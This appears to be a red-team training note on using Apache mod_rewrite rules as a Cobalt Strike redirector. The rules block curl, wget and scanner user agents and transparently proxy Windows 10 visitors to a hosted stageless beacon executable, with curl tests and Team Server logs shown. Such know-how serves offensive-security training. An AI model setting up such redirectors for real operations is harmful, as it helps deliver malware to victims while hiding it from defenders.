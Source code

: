 Performing redirections based on a client's User Agent string can have a number of uses. We can redirect to specific browser exploits, block "script-style" agents such as curl, wget, Python and PowerShell; known AV scanners and sandboxes, and differentiate between desktop and mobile devices.

In this example, if the user agent contains "curl" or "wget", return a 403 forbidden.

```
RewriteEngine on

RewriteCond %{HTTP_USER_AGENT} curl|wget [NC]
RewriteRule .* - [F]

ubuntu@redirector-1 ~> curl -k https://localhost
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>403 Forbidden</title>
</head><body>
<h1>Forbidden</h1>
<p>You don't have permission to access this resource.</p>
<hr>
<address>Apache/2.4.41 (Ubuntu) Server at localhost Port 80</address>
</body></html>
```

  Be aware of falling into traps that cause infinite loops by redirecting to another local URI which triggers the same rewrite rule over and over again.

Add a second RewriteCond and RewriteRule underneath - this is a very loose rule looking for Windows 10 devices.

```
RewriteEngine on

RewriteCond %{HTTP_USER_AGENT} curl|wget [NC]
RewriteRule .* - [F]

RewriteCond %{HTTP_USER_AGENT} "Windows NT 10.0" [NC]
RewriteRule .* https://localhost:8443/win-payload [P]
```

The [P] or Proxy directive is special because it proxies the request to our backend server in a way that's transparent to the requesting party.  Running curl in verbose mode, we don't see any indication that the response came from anywhere other than this Apache server.

```
ubuntu@redirector-1 ~> curl -v -k -A "Mozilla/5.0 (Windows NT 10.0; Trident/7.0; rv:11.0) like Gecko" https://localhost
[...snip...]
< HTTP/1.1 404 Not Found
< Date: Thu, 26 May 2022 15:50:29 GMT
< Server: Apache/2.4.41 (Ubuntu)
< Content-Type: text/plain
< Content-Length: 0
<
```

Yet on the Team Server, we see a hit for `/win-payload`.

```
05/26 15:37:41 visit (port 443) from: 127.0.0.1
	Request: GET /win-payload
	Response: 404 Not Found
	Mozilla/5.0 (Windows NT 10.0; Trident/7.0; rv:11.0) like Gecko
```

Generate an x64 stageless exe and host it on the Cobalt Strike web server.
  
![[11. User Agent Rules.png]]

Attempting to access it from curl with its default user agent just get's blocked as before.

```
ubuntu@redirector-1 ~> curl -k -v https://localhost/win-payload
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>403 Forbidden</title>
</head><body>
<h1>Forbidden</h1>
<p>You don't have permission to access this resource.</p>
<hr>
<address>Apache/2.4.41 (Ubuntu) Server at localhost Port 443</address>
</body></html>
```
  
But it works if we use a user agent string that we're not blocking.

```
ubuntu@redirector-1 ~> curl -k -A "Mozilla/5.0 (Windows NT 10.0; Trident/7.0; rv:11.0) like Gecko" https://localhost/win-payload.exe

05/27 15:48:45 visit (port 443) from: 127.0.0.1
	Request: GET /win-payload.exe
	page Serves /home/ubuntu/cobaltstrike/uploads/beacon.exe
	Mozilla/5.0 (Windows NT 10.0; Trident/7.0; rv:11.0) like Gecko
```